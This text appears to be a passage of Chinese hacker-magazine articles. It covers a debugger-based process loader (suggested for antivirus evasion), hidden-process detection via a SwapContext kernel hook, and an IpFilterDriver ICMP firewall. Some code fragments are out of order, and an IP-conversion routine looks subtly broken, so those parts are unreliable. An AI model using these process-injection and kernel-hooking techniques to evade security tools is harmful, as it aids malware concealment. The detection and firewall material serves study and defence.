invoke WriteProcessMemory,stProcInfo.hProcess,401000h,addr OldByte1,1,NULL ;恢复 OEP
mov MyEsp2,esp
mov esp,MyEsp ;临时调一下
popad
mov stCONTEXT.regEdi,edi
mov stCONTEXT.regEsi,esi
mov stCONTEXT.regEbx,ebx
mov stCONTEXT.regEdx,edx
mov stCONTEXT.regEcx,ecx
mov stCONTEXT.regEax,eax
;本地寄存器赋到跳转程序的寄存器
;EBP、ESP 坚决不能给，因为这是本地的堆栈，如果要完美无缝的话，需要自己衔接
mov esp,MyEsp2
invoke SetThreadContext,stProcInfo.hThread,addr stCONTEXT ;设置跳转程序寄存器
popad
.endif

.if ebx == 401024h ;test2.exe 将在 401023h 处结束，读者可以自行设计
invoke MessageBox,0,addr szReturn,addr szCaption,0
mov stCONTEXT.ContextFlags,CONTEXT_FULL ;读寄存器，不再累赘
invoke GetThreadContext,stProcInfo.hThread,addr stCONTEXT
mov edi,stCONTEXT.regEdi
mov esi,stCONTEXT.regEsi
mov ebx,stCONTEXT.regEbx
mov edx,stCONTEXT.regEdx
mov ecx,stCONTEXT.regEcx
mov eax,stCONTEXT.regEax
pushad
invoke TerminateProcess,stProcInfo.hProcess,0
;已经没有了利用价值……
jmp over
.endif
.endif
.endif

invoke ContinueDebugEvent, DBEvent.dwProcessId, DBEvent.dwThreadId, DBG_CONTINUE
;跳转程序继续执行
.endw

over:
;改一下“栈”况
mov MyEsp2,esp
mov esp,MyEsp
popad
mov MyEsp,esp
mov esp,MyEsp2
popad
mov esp,MyEsp
ret
```

```asm
szText db '成功到达test2.exe内！',0
.code
start:
nop ;这个字节将会被改为 INT 3，从而发生异常
int 3
int 3
int 3
nop ;401001h+3=401004h
invoke MessageBox,0,addr szText,addr szCaption,MB_OK
sub eax,40
mov ecx,offset next
call ecx
next:
pop ecx ;401024h
end start
```

呵呵，轻松一下，我们再来一个跳转程序就 OK 了（test2.exe，第三部分）。

```asm
.386
.model flat, stdcall
option casemap:none
include windows.inc
include user32.inc
includelib user32.lib
include kernel32.inc
includelib kernel32.lib
.const
szCaption db 'NONAME 剑人制作',0
```

呵呵，将第 3 部分代码编译，得到 test2.exe，再把第 1 部分和第 2 部分程序放在同一目录下，编译。最后得的程序和 test2.exe 放在一起，大功即可告成！现在打开 OD，调试看看效果如何吧（可能提示 MessageBox 会影响寄存器）。本程序在 MASM32 + Windows XP SP2 + OLLYDBG 1.10 下测试通过。

最后，这段拥有“上帝的力量”的程序究竟能干什么呢？免杀？Loader？加密/加壳？大家可以自己好好挖掘一下哦！

前置知识：VC  
关键词：进程隐藏、内核钩子、线程列表

### 基于线程的隐藏进程检测



文/图 炉子[OGinr]

进程的隐藏与检测永远是一个不衰的话题，而检测方法也是层出不穷的。常见的纯粹的隐藏进程的检测方法大都是根据进程创建后留下的各种痕迹来检测的，不过我们要换一种思路，转而通过查找线程并根据线程的 KTEB 中的相关信息来获取其对应的进程，最终实现类似的任务。而线程的查找也分很多种，比如内存中搜索、遍历线程链表等，我们所采取的方法与这些方法也有一些差别，是通过内核钩子来记录内核中存在的线程的。下面我们就进入本文的主题。

#### 准备工作

- 1）根据线程得到其所属进程

找到线程之后，我们还需要知道它所属的进程，这并不是太难的问题。我们先看看 KTEB 的结构。

```text
lkd> dt nt!_ETHREAD -r ...
 +0x000 Tcb : _KTHREAD
 ...
 +0x034 ApcState : _KAPC_STATE
 +0x000 ApcListHead : [2] _LIST_ENTRY
 +0x010 Process : Ptr32 _KPROCESS
 +0x014 KernelApcInProgress : UChar
 +0x015 KernelApcPending : UChar
 +0x016 UserApcPending : UChar
 ...
 +0x220 ThreadsProcess : Ptr32 _EPROCESS
 +0x000 Pcb : _KPROCESS
 ...
```

其中的 KTEB.Tcb.ApcState.Process 和 KTEB.ThreadsProcess 都可以为我们所用。一般而言，我们使用 KTEB.ThreadsProcess，并且 NT 系统内核所导出的 PsGetThreadProcess（IoThreadToProcess 是 PsGetThreadProcess 的别名）也使用这一项。

```asm
lkd> u PsGetThreadProcess
nt!PsGetThreadProcess:
 mov edi,edi
 push ebp
 mov ebp,esp
 mov eax,dword ptr [ebp+8]
 mov eax,dword ptr [eax+220h]
 // 这个偏移就是KTEB.ThreadsProcess
 pop ebp
 ret 4
```

那么为什么我们还要关注 KTEB.Tcb.ApcState.Process 呢？这是因为 KTEB.ThreadsProcess 是有可能被修改的，而且不一定影响程序运行（这取决于进程所使用的函数），并且通常不会导致系统范围内的出错。而 KTEB.Tcb.ApcState.Process 则不然，通常这个值只会被 KiAttachProcess 修改，也就是说，这个值指示了该线程实际存在的进程空间的 KPEB。这个值直接和线程调度挂钩（用于切换 cr3 等，请自行使用 WinDBG 查看 SwapContext 反汇编代码），如果被异常修改将会导致系统出错蓝屏。

为了我们的检测方法能和 KiAttachProcess 函数合作得很好，又不至于检测不到某些比较深的隐藏进程（比如 phide_ex），我们应当同时检查这两个值。

- 2）应该钩什么样的函数

说到内核钩子记录调用者线程，就不得不面对一个问题——内核中的函数多如牛毛，而我们出于效率考虑，又不能全部钩住，那么我们究竟应该钩住哪些函数呢？

我选择的函数是 SwapContext，原因很简单，除非我们的钩子被恢复，否则如果它还想要运行，就必须要我们的 Hooked_SwapContext 得知它的存在（在这里提一下对抗这种基于线程调度检测的常见方法——自己实现线程调度。但是，通常这种被自己调度的线程更应当被称为“纤程”，而不是传统意义的“线程”，而我们也只要找出其用于自己调度纤程的线程，将之结束即可）。当然，关于线程调度还有几个函数，类似于 KiReadyThread、KiSwapContext 等，挂钩它们也未尝不可。

#### 代码实现

- 1）查找系统中的线程

由于 SwapContext 并非一个导出函数，所以我们的首要问题自然是定位 SwapContext。SwapContext 在 KiDispatchInterrupt 中被调用。

```asm
lkd> u KiDispatchInterrupt L 100
nt!KiDispatchInterrupt:
 ...
 e8eefdffff call nt!KiReadyThread (804dc6da)
 b101 mov cl,1
 e831000000 call nt!SwapContext (804dc924)
 ...
```

所以我们可以从中通过特征码的方法定位 SwapContext（从 WinDBG 的反汇编结果可知，KiDispatchInterrupt 中同样可以定位 KiReadyThread）。

```c
UCHAR *cPtr;
UCHAR *pOpcode;
ULONG Length;
for (cPtr = (PUCHAR)KiDispatchInterrupt;
     cPtr < (PUCHAR)KiDispatchInterrupt + PAGE_SIZE;
     cPtr += Length)
{
    Length = SizeOfCode(cPtr, &pOpcode);
    if (!Length) break;
    if (*(PUSHORT)cPtr == 0x01B1 && *(PUCHAR)((ULONG)cPtr + 2) == 0xE8)
    {
        // 由上文中WinDBG的反汇编结果中的OpCode可知
    }
}
```

call 对应的 OpCode 是 0xE8，而 call SwapContext 之前的一句“mov cl,1”对应的 OpCode 则为 0x01B1（在反汇编结果中的 B101 是两个连续的单字节，第一个字节为 0xB1，第二个为 0x01）。

```c
{
    SwapContext = *(ULONG *)((ULONG)pOpcode + 3) + (ULONG)cPtr + 7;
    break;
}
```

然后是挂钩 SwapContext，这一部分可以根据个人喜好完成。我选择的是 push ret 的方式。

```c
BOOLEAN EnableSwapContextHook()
{
    UCHAR HookCode[6] = {'\x68','\x00','\x00','\x00','\x00','\xC3'};
    // 68xxxxxxxx 是 push xxxxxxxx，C3 是 ret
    UCHAR JmpCode[7] = {'\xEA','\x00','\x00','\x00','\x00','\x08','\x00'}; // EA 是绝对地址转跳
    ULONG BackupLength = 0;
    PUCHAR pOpCode;
    *(ULONG *)((ULONG)HookCode + 1) = (ULONG)NewSwapContext;
    // 修改 HookCode 中的地址为我们的线程记录函数
    while (BackupLength < 6) // 计算指令长度
    {
        BackupLength += SizeOfCode((PVOID)((ULONG)pfnSwapContext + BackupLength), &pOpCode);
    }
    *(ULONG *)((ULONG)JmpCode + 1) = (ULONG)pfnSwapContext + BackupLength;
    // 转跳回 SwapContext+BackupLength 的地方
    pfnProxySwapContext = ExAllocatePool(NonPagedPool, BackupLength + 7);
    // 我们新分配的函数，用于实现被 push xxxxxxxx ret 所覆盖的指令
    if (!pfnProxySwapContext) return FALSE;
    RtlCopyMemory(pfnProxySwapContext, pfnSwapContext, BackupLength);
    RtlCopyMemory((PVOID)((ULONG)pfnProxySwapContext + BackupLength), JmpCode, 7);
    return ModifySystemRoutine(pfnSwapContext, HookCode, 6); // 修改 SwapContext
}
```

要注意的是，SwapContext 是一个 fastcall 调用约定的函数，所以其参数 OldThread、NewThread 分别存在于 ecx、edx 中，而不是堆栈中。

恢复钩子其实就是把我们备份的前 6 字节覆盖回去（因为我们只修改了 pfnSwapContext 的前 6 字节），之所以在 pfnProxySwapContext 中实现的字节数有可能大于 6，只是为了避免出现执行半条指令的情况。由于在多核系统上有可能有一个或者多个非当前（执行恢复钩子的代码）的处理器正在执行 pfnProxySwapContext 中的指令，如果直接释放之前分配的 pfnProxySwapContext，有可能导致蓝屏。为了防止这种情况，我们可以在恢复钩子之后等待 50ms 再释放我们分配的 pfnProxySwapContext。

在 CollectThreadItem 中记录线程，我只是简单地使用了一个数组。多 CPU 上为了防止同时修改数组，可以考虑自旋或者使用多个数组，或者使用其他的记录方法。

#### 2）常规方法枚举线程

尽管挂钩 SwapContext 很好用，但是实测之后就会发现，实际上，系统线程调度并没有我们想象中那么频繁，很有可能我们的驱动记录了数秒也不能记录下全系统内的线程，所以我们还需要一些代码先把没有刻意隐藏的线程记录下来，以防出现检测到隐藏进程却没有显示出普通进程的尴尬。

我们采用枚举 PspCidTable 的方法来实现。PspCidTable 可以从 PsLookupProcessByProcessId 中定位。

```asm
lkd> u PsLookupProcessByProcessId L30
nt!PsLookupProcessByProcessId:
mov edi,edi
push ebp
mov ebp,esp
push ebx
push esi
mov eax,dword ptr fs:[00000124h]
push dword ptr [ebp-8]
mov esi,eax
dec dword ptr [esi+0D4h]
ff35e0175680 push dword ptr [nt!PspCidTable (805617e0)]
// 在 PsLookupProcessByProcessId 中，以 PspCidTable 为参数调用了 ExMapHandleToPointer
... call nt!ExMapHandleToPointer (80566ddb)
```

我们使用如下代码来实现。

```c
for (cPtr = (PUCHAR)PsLookupProcessByProcessId;
     cPtr < (PUCHAR)PsLookupProcessByProcessId + PAGE_SIZE;
     cPtr += Length)
{
    ...
}

Length = SizeOfCode(cPtr, &pOpcode);
if (!Length) break;
if (*(PUSHORT)cPtr == 0x35FF && *(PUCHAR)((ULONG)cPtr + 6) == 0xE8)
{
    // 特征码获取同前
    PspCidTable = *(ULONG *)(cPtr + 2);
    break;
}
```

PspCidTable 可以直接使用 ExEnumHandleTable 来枚举，这样就避免了对 Windows 2000/XP 不同结构的处理。

```c
BOOLEAN EnumPspCidTable()
{
    return ExEnumHandleTable(*(PVOID *)phPspCidTable, (EX_ENUMERATE_HANDLE_ROUTINE)PspCidTableEnumCallBack, NULL, NULL);
}
```

EX_ENUMERATE_HANDLE_ROUTINE 的定义如下。

```c
typedef BOOLEAN (*EX_ENUMERATE_HANDLE_ROUTINE)(
    IN PHANDLE_TABLE_ENTRY HandleTableEntry,
    IN HANDLE Handle,
    IN PVOID EnumParameter
);
```

其中的 HandleTableEntry 是一个 HANDLE_TABLE_ENTRY 类型指针，HANDLE_TABLE_ENTRY 定义如下。

```c
typedef struct _HANDLE_TABLE_ENTRY {
    PVOID Object;
    // ...
} HANDLE_TABLE_ENTRY, *PHANDLE_TABLE_ENTRY;
```

其中的 Object 就是被枚举的表中的表项，在 PspCidTable 中，这些表项作为 KTEB/KPEB 的指针出现，我们可以根据 KTEB/KPEB 的 OBJECT_HEADER 来区分开 KTEB 和 KPEB。

```c
BOOLEAN PspCidTableEnumCallBack(...)
{
    // ...
    ObjectBody = HandleTableEntry->Object;
    if (OBJECT_TO_OBJECT_HEADER(ObjectBody)->Type == *PsThreadType) // 是一个 KTEB 指针
    {
        // 记录 KTEB 指针
        return FALSE; // 返回 FALSE 表示继续枚举
    }
}
```

另外还有一个线程不出现在 PspCidTable 中，这个线程便是我们常说的“系统空闲进程”中的那个线程——IdleThread，我们可以从 KPCR（Kernel Processor Control Region，处理器控制区域）中找到。

```text
lkd> dt _KPCR 0xFFDFF000
nt!_KPCR
 +0x000 NtTib : _NT_TIB
 +0x01c SelfPcr : 0xffdff000 _KPCR
 +0x020 Prcb : 0xffdff120 _KPRCB
lkd> dt _KPRCB 0xFFDFF120
nt!_KPRCB
 +0x000 MinorVersion : 1
 +0x002 MajorVersion : 1
 +0x004 CurrentThread : 0xfff5cda0 _KTHREAD
 +0x008 NextThread : (null)
 +0x00c IdleThread : 0x80559e20 _KTHREAD
 // 这就是 IdleThread
```

所有 32 位 NT 系统中 KPCR 都处在相同位置，所以我们可以直接硬编码。

#### 3）获得线程所属的进程

获得 KTEB.ThreadsProcess 我们可以简单地使用 PsGetThreadProcess，这无疑是最简单省事的方法，至于 KTEB.Tcb.Apc.State.Process 则相对麻烦些。

由于 KTEB 结构（ETHREAD/KTHREAD）在各个系统下都不同，所以我们只能通过偏移量来取 KTEB.Tcb.Apc.State.Process，考虑到通用性问题，我们需要动态确定偏移。

```c
ULONG Pointer = (ULONG)PsGetCurrentThread();
ULONG i = 0;
for (i = 0; i < 0x200; i++)
{
    if (MmIsAddressValid((PVOID)(Pointer + i)))
    {
        if (*(PEPROCESS *)(Pointer + i) == PsGetCurrentProcess())
        // KTEB.Tcb.Apc.State.Process 是 KTEB 中第一次出现 KPEB 指针的项
        {
            ProcessOffsetInThread = i;
        }
    }
}
```

我们也可以采取类似于定位未导出函数的方法。在 PsGetCurrentProcess 中是直接取 PsGetCurrentThread()->Tcb.Apc.State.Process 的（这也证实了我之前所说的，KTEB.Tcb.Apc.State.Process 指示了当前线程所处的进程环境——而不是所属的进程环境）。

```text
lkd> u PsGetCurrentProcess L10
nt!PsGetCurrentProcess:
mov eax,dword ptr fs:[00000124h]
mov eax,dword ptr [eax+44h]
// 这个 44h 就是 KTEB.Tcb.Apc.State.Process 的偏移
ret
```

#### 4）记录到的线程列表的维护

需要注意的是，这种方法检测隐藏进程与普通的读表、读链的方法不同，它是动态记录线程的，所以就引出了另外一个问题——我们如何确保所记录的线程都是在执行的，而没有在记录后被结束的？

我们可以创建一个线程创建结束通告，当有线程结束时将其记录下来，然后等到输出时将其从我们的线程列表中删去。为什么我们不能直接在线程结束通告的回调例程中直接将其删去呢？这是因为线程结束通告的回调例程调用时，线程还没有真正地结束，所以如果我们当时就将其删除，很难保证在我们删除它之后不会再次被记录。

线程创建结束通告的回调函数声明如下：

```c
VOID ThreadCreateNotifyRoutine(HANDLE ProcessId, HANDLE ThreadId, BOOLEAN Create)
```

当参数 Create 为 FALSE 时，即表示本次回调例程的调用是由于线程结束引发的，这时候我们就可以把这个线程记入“已结束线程列表”。不过我们立刻又面临了一个问题——如果我们将其记入已结束线程列表之后，系统又使用相同的 KTEB 指针创建了一个线程，那么我们不就不能记录到这个线程了吗？为了避免这个问题，我们可以在 ThreadCreateNotifyRoutine 例程中，当 Create 为 TRUE 时，从“已结束线程列表”中查找是否存在正在创建的线程的 KTEB 指针。如果存在，将其从“已结束线程列表”中移除（也可以在 ThreadCreateNotifyRoutine 中记录所有 Create 为 TRUE 的动作，这样可以记录到在我们驱动加载后创建的所有线程）。在 ThreadCreateNotifyRoutine 的参数中，ThreadId 即为正在创建的线程的 TID，我们可以根据这个 TID 使用 PsLookupThreadByThreadId 获取对应的 KTEB 指针。

#### 尾声

本文提供了一种基于线程的隐藏进程的检测方法，一般来说，这种检测方法还是比较可靠的，但是大家需要明白的是，正如没有绝对锋利的矛，单一的一种方法也并不能保证总是有效的，我们可以将本文的方法和黑防往期刊登的各种方法结合起来使用，这样才会有更好的效果。

前置知识：VC  
关键词：过滤、驱动、NDIS 中间层

### 使用过滤驱动打造防火墙

文／图 夜枫



学习过滤驱动的时候，在网上搜索相关资料，偶然间发现了一个防火墙驱动，觉得很有意思，就研究了一下。这个驱动实际上并不是直接挂钩在 \Device\Tcp 上，而是通过一个叫 \Device\IpFilterDriver 的驱动来间接实现过滤的，十分简单。而实际防火墙软件大多不是采用此方法，而是采用 NDIS 中间层驱动的方法，但是 NDIS 的方法比较复杂。

#### 准备工作

我测试这个驱动的时候，使用网上的代码直接可以运行，但是自己写的驱动调试运行的时候就无法获得到 \Device\IpFilterDriver 指针，开始百思不得其解，后来才知道需要启动一个服务，所以如果你也遇到类似情况的话，只需在控制台中执行“net start ipfilterdriver”就可以了。或者修改注册表 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\IpFilterDriver] 的 Start 为 1，然后重新启动就可以实现开机自动启动了。

#### 原理说明

这个驱动的原理比起 NDIS 中间层驱动要简单很多，首先获得 IpFilterDriver 的设备对象指针，使用 IoGetDeviceObjectPointer 就可以获得，我们在 DDK 的帮助里查看一下这个函数。

```c
NTSTATUS
IoGetDeviceObjectPointer(
    IN PUNICODE_STRING ObjectName,
    IN ACCESS_MASK DesiredAccess,
    OUT PFILE_OBJECT *FileObject,
    OUT PDEVICE_OBJECT *DeviceObject
);
```

这个函数第一个参数是对象的名字，这里自然就是 \Device\IpFilterDriver 了，第二个是访问权限，我们设置为 STANDARD_RIGHTS_ALL，第三个和第四个要注意 OUT 是表示输出的，所以我们用两个变量去接收它。

最后一个就是设备对象了，一般做过滤驱动的时候都会调用 IoAttachDeviceByPointer 之类的函数来实现。不过我们这里不需要，只要给这个设备对象发送一个 IRP 来设置一个回调函数就可以了。创建 IRP 的函数是 IoBuildDeviceIoControlRequest，我们创建一个 DeviceIoControl 的 IRP（这里提一下，其他 IRP 不是这么创建的，另外有函数），发送一个 IOCTL 到该设备对象，IOCTL 为 IOCTL_PF_SET_EXTENSION_POINTER，输入缓冲区为一个结构体的地址，结构体是 PF_SET_EXTENSION_HOOK_INFO。

```c
typedef struct _PF_SET_EXTENSION_HOOK_INFO {
    PacketFilterExtensionPtr ExtensionPointer;
} PF_SET_EXTENSION_HOOK_INFO,
*PPF_SET_EXTENSION_HOOK_INFO;
```

它只有一项，是一个函数指针，我们来看这个函数。

```c
typedef PF_FORWARD_ACTION
(*PacketFilterExtensionPtr)(
    IN unsigned char *PacketHeader,
    IN unsigned char *Packet,
    IN unsigned int PacketLength,
    IN unsigned int RecvInterfaceIndex,
    IN unsigned int SendInterfaceIndex,
    IN IPAddr RecvLinkNextHop,
    IN IPAddr SendLinkNextHop
);
```

这个函数实际就是我们的过滤函数了。当我们设置了过滤函数后，用 IoCallDriver 发送这个 IRP，当 IRP 返回 STATUS_SUCCESS 时候表示成功，当有网络传输时就会调用我们设置好的回调函数。我们再看看其完整代码。

```c
NTSTATUS SetFilterFunction(PacketFilterExtensionPtr FilterFunction)
{
    NTSTATUS ntStatus = STATUS_SUCCESS,
             waitStatus = STATUS_SUCCESS;
    UNICODE_STRING FilterDeviceName;
    PDEVICE_OBJECT ipDeviceObject = NULL;
    PFILE_OBJECT ipFileObject = NULL;
    PF_SET_EXTENSION_HOOK_INFO filterData;
    KEVENT Event;
    IO_STATUS_BLOCK ioStatus;
    PIRP irp;

    RtlInitUnicodeString(&FilterDeviceName, DD_IPFLTRDRVR_DEVICE_NAME);
    ntStatus = IoGetDeviceObjectPointer(&FilterDeviceName, STANDARD_RIGHTS_ALL,
                                        &ipFileObject, &ipDeviceObject);
    if (!NT_SUCCESS(ntStatus)) {
        KdPrint(("Get IpFilterDriver Failed\n"));
        return ntStatus;
    }

    filterData.ExtensionPointer = FilterFunction;
    KeInitializeEvent(&Event, NotificationEvent, FALSE);
    irp = IoBuildDeviceIoControlRequest(
        IOCTL_PF_SET_EXTENSION_POINTER,
        ipDeviceObject,
        (PVOID)&filterData,
        sizeof(PF_SET_EXTENSION_HOOK_INFO),
        NULL,
        0,
        FALSE,
        &Event,
        &ioStatus);
    if (irp == NULL) {
        ...
    }
}
```

```c
KdPrint(("Create Irp Packet Failed\n"));
return ioStatus.Status;
}
ntStatus = IoCallDriver(ipDeviceObject, irp);
if (ntStatus == STATUS_PENDING)
{
    waitStatus = KeWaitForSingleObject(&Event,
        Executive, KernelMode, FALSE, NULL);
    if (waitStatus != STATUS_SUCCESS)
        KdPrint(("测试 Error waiting for IpFilterDriver response."));
    ntStatus = ioStatus.Status;
    if (!NT_SUCCESS(ntStatus))
        KdPrint(("测试 Error, IO error with ipFilterDriver\n"));
    if (ipFileObject != NULL)
        ObDereferenceObject(ipFileObject);
    ipFileObject = NULL;
    ipDeviceObject = NULL;
    return ntStatus;
}
```

```c
typedef struct IPHeader {
    UCHAR iph_verlen;
    UCHAR iph_tos;
    USHORT iph_length;
    USHORT iph_id;
    USHORT iph_offset;
    UCHAR iph_ttl;
    UCHAR iph_protocol;
    USHORT iph_xsum;
    ULONG iph_src;
    ULONG iph_dest;
} IPHeader;
```

其中的 iph_protocol 就是协议，比如 TCP/UDP/ICMP 之类的。这里我做的是 ICMP 过滤，先判断协议，然后通过判断接收接口索引是否有效（如果是接数据自然就有效，如果是发数据自然就无效了）来判断是接还是发，并打印出目的地址和源地址。这里的地址和 Winsock 编程一样是处理过的，把 IP 地址的 4 个部分转换成十六进制，然后按高低位写在一起。Winsock 库里有个函数叫 inet_ntoa，可以把这个转换成 IP，但这里是内核，没有这个函数只好自己写一个，还好不难。

这个代码我稍微精简了一下，更简单明了一些。我们再看下回调函数。

```c
PF_FORWARD_ACTION PacketFilterExtensionProc(
    IN unsigned char *PacketHeader,
    IN unsigned char *Packet,
    IN unsigned int PacketLength,
    IN unsigned int RecvInterfaceIndex,
    IN unsigned int SendInterfaceIndex,
    IN IPAddr RecvLinkNextHop,
    IN IPAddr SendLinkNextHop )
{
    IPHeader* Ip_Header = (IPHeader*)PacketHeader;
    char src_ip[50] = {0};
    char dst_ip[50] = {0};
    if (Ip_Header->iph_protocol == IPPROTO_ICMP)
        if (INVALID_PF_IF_INDEX == RecvInterfaceIndex) {
            inet_ntoa_krnl(Ip_Header->iph_src, src_ip);
            inet_ntoa_krnl(Ip_Header->iph_dest, dst_ip);
            KdPrint(("发送|发送:%s\\接收:%s\n", src_ip, dst_ip));
        } else {
            inet_ntoa_krnl(Ip_Header->iph_src, src_ip);
            inet_ntoa_krnl(Ip_Header->iph_dest, dst_ip);
            KdPrint(("接收|发送:%s\\接收:%s\n", src_ip, dst_ip));
        }
    return PF_FORWARD;
}
```

```c
void inet_ntoa_krnl(unsigned long addr, char* out)
{
    long tmp = 0;
    long a[4] = {0};
    memset(out, 0, 50);
    tmp = addr;
    tmp = tmp >> 8 << 8;
    tmp = ~tmp;
    tmp = tmp & addr;
    a[0] = tmp;
    tmp = addr;
    tmp = tmp >> 16 << 8;
    tmp = ~tmp;
    tmp = tmp << 8;
    tmp = (tmp & addr) >> 8;
    a[1] = tmp;
    tmp = addr;
    tmp = tmp >> 24 << 16;
    tmp = ~tmp;
    tmp = tmp << 8;
    tmp = (tmp & addr) >> 16;
    a[2] = tmp;
    tmp = addr;
    tmp = tmp >> 32 << 24;
    tmp = ~tmp;
    tmp = tmp << 8;
    tmp = (tmp & addr) >> 24;
    a[3] = tmp;
    sprintf(out, "%d.%d.%d.%d", a[0], a[1], a[2], a[3]);
}
```

这个方法只能过滤 IP 协议层以上的协议，比如 ARP、RARP 之类的协议是过滤不到的，这需要用 NDIS 驱动。这里的 PacketHeader 实际就是一个 IP 头部，IP 头部的定义网上到处都是，我们来看看。

这段代码就是来回移位，把数据分离出来。另外值得一提的是，过滤函数返回值有三种，分别是 PF_FORWARD、PF_DROP 和 PF_PASS，第一个是继续传递，第二个是丢弃，也就是不继续传递，自然就阻止了。

说了半天可能大家还是云里雾里，不过没关系，结合我的介绍看看代码就能明白了。如果不明白，欢迎大家到黑防论坛发帖子，黑防有很多高手也会给大家解答的。

下面我们还是来看看效果吧。设置为 PF_FORWARD 时，我们编译并调试运行，结果如图 1 所示。这里我们可以看到一个发送紧跟一个接收，证明我们发送和接收都是判断对了的。



图1

并且都是有效的。如果我们采用 PF_DROP，那么效果又会如何呢？结果如图 2 所示，可以看到发送被阻止了，如果我们在接收时候采用 PF_DROP，那么也会被阻止掉。这样就实现了一个初级的防火墙功能，是不是很简单又很奇妙呢？

